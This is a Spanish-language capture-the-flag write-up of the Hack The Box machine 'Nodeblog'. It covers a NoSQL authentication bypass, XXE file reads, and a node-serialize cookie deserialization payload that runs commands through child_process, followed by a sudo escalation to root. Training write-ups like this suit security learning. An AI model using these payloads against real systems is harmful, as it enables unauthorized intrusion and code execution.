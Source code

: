 ```yaml
---
title: Nodeblog
date: 2023-05-04 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: []     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.93 scan initiated Thu May  4 12:55:11 2023 as: nmap -sCV -p22,5000 -oN targeted 10.10.11.139
Nmap scan report for 10.10.11.139
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  4 12:55:27 2023 -- 1 IP address (1 host up) scanned in 16.07 seconds
```
Encotramos un sitio web donde se puede ver artículos. En primeras se hizo fuzzing y no se encontró nada interesante, solo el apartado de login. Podemos proceder a interceptar la petición del login para intentar alguna manera de hace un bypass.

![imagen1](/assets/images/Nodeblog/nodeblog1.png)

![imagen2](/assets/images/Nodeblog/nodeblog2.png)

Intentamos una inyección sql primero y después una inyección nosql, en primera ninguna de las dos funcionaba pero al cambiar la data que se manda a json pudimos hacer un bypass de la autienticiación.

![imagen3](/assets/images/Nodeblog/nodeblog3.png)

![imagen4](/assets/images/Nodeblog/nodeblog4.png)

Dentro de este blog podemos crear nuevos artículos, podemos crear un artículo o tenemos una función de upload donde al subir un archivo txt cualquiero nos muestra un error donde hay un xml inválido.

![imagen5](/assets/images/Nodeblog/nodeblog5.png)

![imagen6](/assets/images/Nodeblog/nodeblog6.png)

Podemos intentar un XXE para que nos lea un archivo de la máquina. Al poner un xml válido vemos que nos muestra el archivo passwd correctamente.

![imagen7](/assets/images/Nodeblog/nodeblog7.png)

Al no conseguir un archivo que nos pueda ayudar, intentamos generar un error en el servidor para que nos muestre rutas. Pudimos encontrar la ruta donde están los archivos del servidor, apuntamos a /opt/blog/server.js que nos puede dar algo más de información.

![imagen8](/assets/images/Nodeblog/nodeblog8.png)

```js
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}


app.get('/', async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)


app.listen(5000)

```
Encontramos que está usando la librería serialize esto en primeras es peligroso, la usa para deserializar la cookie y validarla. Podemos abusar de esto para ejecutar comandos. En este [blog](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) muestra una manera de explotar esto. Cambiamos la cookie por:

```js
{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'ping -c 1 10.10.14.5\', function(error, stdout, stderr){console.log(stdout)});}()"}
```
Con esto nos ponemos en escucha y nos muestra que nos hace ping satisfactoriamente.

![imagen9](/assets/images/Nodeblog/nodeblog9.png)

Ya solo nos queda entablarnos una conexión con bash.

```shell
admin@nodeblog:/home$ cd admin
bash: cd: admin: Permission denied
admin@nodeblog:/home$ ls
admin
admin@nodeblog:/home$ ls -la
total 16
drwxr-xr-x 1 root  root   10 Dec 27  2021 .
drwxr-xr-x 1 root  root  180 Dec 27  2021 ..
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
admin@nodeblog:/home$ chmod +x admin
admin@nodeblog:/home$ cd admin
admin@nodeblog:~$ ls
user.txt
```
Aquí encontramos la contraseña del usuario admin.

```shell
admin@nodeblog:/opt/blog/routes$ cat login.js 
const express = require('express')
const User = require('./../models/user')
const Article = require('./../models/article')
const serialize = require('node-serialize')
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
const router = express.Router()

// Create New Article
router.get('/', async (req, res) => {
    res.render('user/login', { user: new User() })
})

// Lazy way to create the first user
router.get('/create', async (req, res) => {
    let user = new User()
    user.username = 'admin'
    user.password = 'IppsecSaysPleaseSubscribe'
    u = await user.save()
    res.render('user/login')})
```
Viendo los permisos sudo tiene que puede ejecutar cualquier comando como root, entonces solo nos queda mandarnos una bash como root y listo.

```shell
admin@nodeblog:/opt/blog/routes$ sudo -l
[sudo] password for admin: 
Matching Defaults entries for admin on nodeblog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
sudo /bin/bash
```
